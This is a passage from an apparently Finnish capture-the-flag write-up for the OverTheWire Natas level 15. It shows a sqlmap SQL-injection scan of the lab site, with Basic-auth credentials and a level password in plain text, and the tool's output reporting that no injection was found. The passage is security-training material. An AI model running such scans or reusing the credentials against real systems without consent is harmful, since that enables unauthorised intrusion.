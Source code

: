 Tämä ei antanut kauheasti mitään tuloksia ainakaan lukien, mutta paitsi jotakin testeistä on infoja mistä on kyse tässä level:issä:
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php" \
  --auth-type Basic \
  --auth-cred "natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx" \
  --data "username=admin" \               
  --batch
        ___
       __H__                                                                                                                   
 ___ ___["]_____ ___ ___  {1.8.5#stable}                                                                                       
|_ -| . [']     | .'| . |                                                                                                      
|___|_  [,]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:15:04 /2025-05-18/

[10:15:04] [INFO] testing connection to the target URL
[10:15:06] [INFO] testing if the target URL content is stable
[10:15:07] [INFO] target URL content is stable
[10:15:07] [INFO] testing if POST parameter 'username' is dynamic
[10:15:07] [WARNING] POST parameter 'username' does not appear to be dynamic
[10:15:08] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[10:15:08] [INFO] testing for SQL injection on POST parameter 'username'
[10:15:08] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:15:15] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:15:16] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:15:16] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:15:16] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[10:15:17] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[10:15:18] [INFO] testing 'Generic inline queries'
[10:15:18] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:15:18] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)                                                                                        
[10:15:18] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[10:15:19] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[10:15:19] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:15:20] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[10:15:20] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[10:15:21] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[10:15:21] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[10:15:21] [WARNING] POST parameter 'username' does not seem to be injectable
[10:15:21] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[10:15:21] [WARNING] your sqlmap version is outdated

```
